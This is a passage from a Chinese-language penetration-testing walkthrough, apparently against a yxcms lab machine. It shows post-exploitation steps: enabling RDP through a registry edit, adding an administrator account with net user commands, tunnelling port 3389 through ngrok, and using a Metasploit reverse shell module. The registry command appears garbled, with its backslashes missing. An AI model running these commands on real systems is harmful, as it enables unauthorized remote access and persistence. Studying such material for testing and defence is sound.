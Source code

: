发现是一个administrator权限的shell，然后查看3389是否开启

[![](https://p1.ssl.qhimg.com/t015214f9d6a8b56285.png)](https://p1.ssl.qhimg.com/t015214f9d6a8b56285.png)

发现3389并没有开启，我们使用以下命令开启它：

```
REG ADD HKLMSYSTEMCurrentControlSetControlTerminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

然后就发现3389已经成功的开启了

[![](https://p5.ssl.qhimg.com/t01cdb9d09a7841f383.png)](https://p5.ssl.qhimg.com/t01cdb9d09a7841f383.png)

尝试添加用户：

```
C:\phpStudy\WWW\yxcms&gt; net user test N0hWI!@! /add
命令成功完成。
C:\phpStudy\WWW\yxcms&gt; net localgroup administrators test /add
命令成功完成。
```

可以发现已经成功添加一个用户上去

[![](https://p2.ssl.qhimg.com/t01fbcbab39abde39ad.png)](https://p2.ssl.qhimg.com/t01fbcbab39abde39ad.png)

尝试远程桌面连接却失败了，nmap扫描3389端口发现状态为filtered

[![](https://p1.ssl.qhimg.com/t01113439bcfb456ba7.png)](https://p1.ssl.qhimg.com/t01113439bcfb456ba7.png)

猜测应该是防火墙的问题，查看虚拟机发现猜测没错

[![](https://p0.ssl.qhimg.com/t018f75694bc6bd5d1d.png)](https://p0.ssl.qhimg.com/t018f75694bc6bd5d1d.png)

此时思路一般如下：

1、反弹一个msf的shell回来，尝试关闭防火墙<br>
2、尝试使用隧道连接3389

我们先来看一下第二种我们这里使用ngrok：

在ngrok中添加一条tcp隧道就ok然后了，然后我们就可以去连接目标的3389了

[![](https://p4.ssl.qhimg.com/t01579374e5c2a0a59c.png)](https://p4.ssl.qhimg.com/t01579374e5c2a0a59c.png)

我们再来看一下第一种的操作，先反弹一个msf的shell回来

[![](https://p3.ssl.qhimg.com/t015472c31f1e076a26.png)](https://p3.ssl.qhimg.com/t015472c31f1e076a26.png)

关闭防火墙：

```
meterpreter &gt;  run post/windows/manage/enable_rdp
```
